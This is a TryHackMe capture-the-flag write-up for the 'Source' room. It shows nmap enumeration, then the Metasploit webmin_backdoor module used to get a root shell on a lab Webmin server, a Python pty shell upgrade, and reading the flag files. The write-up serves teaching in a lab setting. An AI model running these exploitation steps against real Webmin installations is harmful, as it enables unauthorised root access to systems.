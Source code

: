 ```yaml
---
title: Source writeup
published: true
---
```


# ***TryHackMe***- Source : Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

Link to THM Room : [source](https://tryhackme.com/room/source)

## About the room :   

This is pretty easy room created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471)<br>
Since, this room is only 5 days old so I decided to root the machine as quickly as possible, hence, usig Metasploit.<br>
However if you are not sure about using Metasploit, I suggest learning and completing the room [Metasploit](https://tryhackme.com/room/rpmetasploit).<br>
Well without any further ado **let's break in**.

### Methodology :

- **Port Scanning : nmap**
- **Exploit and privilege escialtion : metasploit**

**Hop into your terminal**

+ ***nmap to enumerate the ports running on the machine***

>> **nmap -sC -sV -Pn -oN source 10.10.x.x**

<img src="/images/nmap.jpg">

Right we have ssh running on 22 and Webmin httpd on 10000.<br>
Let's hop into browser to check what's in the web server.

***Note the website is running on SSL(Secure Socket Layer), therefore, the link would be https://10.10.x.x:10000.***

<img src="/images/weblogin.JPG">

And here's a login page.<br>
We could definately try bute-forcing with **Hydra** or use **sqlmap** to check the database.<br>
But all these require a little more enumeration to follow, so let's just hop into metasploit for convenience.

+ ***metasploit***

**Back into terminal**   

Type **msfconsole** to fire up metasploit framework.

Once it starts use the **search** command to search for exploits related to **webmin**

>> search webmin

<img src="/images/search.JPG">

Cool there's exploits for webmin we can use.<br>
Exploits for Remote Command Execution available<br>
However, here's an exploit available as webmin_backdoor which will do our task to create a **backdoor** into admin's machine.<br>
If we can get root privilege straight through the backdoor, why not use it ???<br>

We can simply set the payload with **use exploit_number** or **use full_path** command.

>> use 2

<img src="/images/use2.JPG">

**show options** to veiw the options available for payload.<br>
Simply set RHOSTS - the target machine,<br> RPORT - 10000(here its set by default),<br> LHOST - the listening ip address(our tun0 ip provided by openvpn).<br>
Make sure to set SSL - true(because the server is using SSL).

>> set RHOSTS 10.10.x.x

>> set LPORT your_vpn_ip 

>> set SSL true 

With all the parameters set we are good to go and run the payload. Type **run** or **exploit**

>> run

<img src="/images/runexp.JPG">

In no time we get out **session**<br>
If you check with **whoami** , we're in as **root**<br>
Sweet eh ???

Now here we are **root**, but since this shell is unstable at this moment, we can use **python** to get a stable shell.<br>
Simply type the following commands to get a stable shell :

>> shell

>> python -c "import pty;pty.spawn('/bin/bash')"

<img src="/images/import.JPG">

Here we are simply using **python** to spawn a shell i.e /bin/bash.<br>
Type the following commands to make use of /bashrc (can't explain everything here, just know you can't use *clear* command, etc.. yet so)

>> export TERM=xterm

Once this is done we are able to clear screen or use our arrow keys to neviagte to previously used commands.<br>
Well, let's get our **user.txt** and **root.txt** asap...

>> cd /home
>> ls
>> cd dark
>> ls
>> cat user.txt

<img src="/images/user.JPG"> 

Got our first flag i.e user.txt

>> cd /root
>> ls
>> cat root.txt

or simply

>> cat /root/root.txt

<img src="/images/root.JPG"> 

And there we are, **root flag** staring at us. :D

***Finally completed the room, congrats !!!***

***This was fairly an easy machine.***<br>

**Thank you for reading, hope you enjoyed and learned something !!! ;)**

***PS: If you found a sotphisticated way to root this machine other than using Metasploit do add a writeup or DM me on [THM](https://tryhackme.com/p/xavag3djang0) @xavag3djang0 and share your exerience so that I may learn too !***



